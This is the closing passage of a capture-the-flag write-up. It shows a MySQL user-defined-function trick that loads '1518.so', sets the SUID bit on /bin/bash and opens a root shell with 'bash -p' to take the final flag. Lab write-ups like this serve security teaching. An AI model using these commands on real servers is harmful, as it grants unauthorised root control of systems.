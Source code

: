 create function do_system returns integer soname '1518.so';
select do_system('chmod u+s /bin/bash');
```

![image](https://user-images.githubusercontent.com/69868171/120071710-7f4acf00-c05e-11eb-8076-a8e9dbc30e02.png)

Now to get our root shell we are going to use `/bin/bash -p` and we should have root shell.

![image](https://user-images.githubusercontent.com/69868171/120071962-71e21480-c05f-11eb-89e0-da1ef568b2ca.png)

Getting the last flag.

![image](https://user-images.githubusercontent.com/69868171/120071986-89210200-c05f-11eb-8a84-d6751b6f3eb3.png)

We are root and done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
